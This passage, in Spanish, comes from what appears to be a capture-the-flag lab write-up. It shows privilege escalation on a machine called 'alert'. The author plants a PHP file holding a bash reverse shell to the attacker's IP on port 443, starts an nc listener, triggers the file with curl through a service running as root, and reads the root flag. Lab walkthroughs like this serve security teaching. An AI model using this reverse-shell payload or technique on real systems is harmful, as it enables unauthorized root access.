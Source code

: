 Crearemos en este directorio que disponemos de acceso, un archivo PHP que nos establezca una Reverse Shell hacía nuestro equipo. Verificaremos que hemos logrado crear el archivo `gzzcoo.php` en la ruta `/opt/website-monitor/config`.

```bash
albert@alert:/opt/website-monitor/config$ cat gzzcoo.php 
<?php system("/bin/bash -c 'bash -i >& /dev/tcp/10.10.16.5/443 0>&1'"); ?>
albert@alert:/opt/website-monitor/config$ ls -l
total 8
-rwxrwxr-x 1 root   management 49 Jan 21 17:33 configuration.php
-rwxrwxr-x 1 albert management 75 Jan 21 17:32 gzzcoo.php
```

Desde nuestra terminal de atacante, nos pondremos en escucha por el puerto especificado en el payload creado.

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
```

Realizaremos una petición por GET a través de la herramienta `cURL` sobre 127.0.0.1:8080/config/gzzcoo.php

```bash
❯ curl -s -X GET '127.0.0.1:8080/config/gzzcoo.php'
```

Dado que el servicio se ejecuta con los permisos del usuario `root`, al haber subido ese archivo PHP en la ruta donde teníamos acceso de escritura, su ejecución sería realizada por el mismo usuario `root`. Esto nos permitió que el usuario `root` ejecutara el payload de la Reverse Shell que subimos, dándonos así control total del sistema.

Comprobamos que podemos visualizar la flag de **root.txt**.

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.16.5] from (UNKNOWN) [10.10.11.44] 50392
bash: cannot set terminal process group (1003): Inappropriate ioctl for device
bash: no job control in this shell
root@alert:/opt/website-monitor/config$ cat /root/root.txt
2352161ea***********************
```
